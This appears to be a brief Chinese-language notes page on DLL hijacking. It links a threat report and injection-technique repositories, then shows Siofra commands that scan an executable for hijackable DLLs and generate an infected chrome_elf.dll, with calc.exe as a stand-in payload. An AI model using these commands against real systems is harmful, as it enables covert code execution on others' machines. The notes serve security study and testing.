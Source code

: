 ### 简介

DLL Hijacking

[【微步在线报告】“海莲花”攻击 - 白利用 0检出](https://m.threatbook.cn/detail/1397?from=groupmessage&isappinstalled=0)

### 方式

7种不同的DLL注入方式 [injectAllTheThings](https://github.com/fdiskyou/injectAllTheThings)

[详细解释文章 - 看雪学院](https://mp.weixin.qq.com/s/mNLxblONujByW16r9tC6yQ)

### 测试


使用[siofra](https://github.com/Cybereason/siofra)检测xx.exe的DLL能否被劫持

```
# 文件扫描模式 对父程序xx.exe进行扫描 枚举它所依赖的dll文件 并检测能否DLL Hijacking
Siofra32.exe --mode file-scan -f "c:\Program Files\xxx\xx.exe" --enum-dependency --dll-hijack
# 如结果
# [!] Module chrome_elf.dll vulnerable at C:\ProgramData\xxx\chrome_elf.dll (real path: Unknown)

# Exploit - 生成存在恶意代码chrome_elf.dll 从而实现dll劫持
Siofra32.exe --mode infect -f chrome_elf(real).dll -o chrome_elf.dll --payload-type process --payload-path C:\Windows\System32\calc.exe
```

### 其他资料

Visual Studio 2017 实现各种代码注入 [theevilbit/injection](https://github.com/theevilbit/injection)
